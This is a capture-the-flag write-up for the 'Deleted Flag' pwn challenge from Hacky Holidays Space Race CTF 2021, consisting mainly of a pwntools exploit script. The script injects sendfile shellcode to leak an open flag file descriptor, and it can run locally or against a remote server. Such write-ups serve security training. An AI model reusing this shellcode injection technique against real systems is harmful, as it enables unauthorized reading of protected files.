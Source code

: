 ```yaml
---
name: Deleted Flag (2021)
event: Hacky Holidays Space Race CTF 2021
category: Pwn
description: Writeup for Deleted Flag (pwn) - Hacky Holidays Space Race CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Deleted Flag

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/hY446_xs-DE/0.jpg)](https://youtu.be/hY446_xs-DE?t=2368s "Hacky Holidays Space Race 2021: Deleted Flag")

## Challenge Description

> We've removed your flag. Good luck getting it back.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break fopen
continue
'''.format(**locals())

# Binary filename
exe = './app'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Save the flag to file
write('flag.txt', 'CTF{fake_flag_for_testing}')

# Start program
io = start()

# https://www.tutorialspoint.com/unix_system_calls/sendfile.htm
shellcode = asm(shellcraft.sendfile(1, 3, 0, 4096))  # out_fd is stout (1), in_fd is (3) locally and (5) remotely
write('payload', shellcode)

# Send the payload
io.sendlineafter('flag?', shellcode)

# Got Shell?
io.interactive()
```
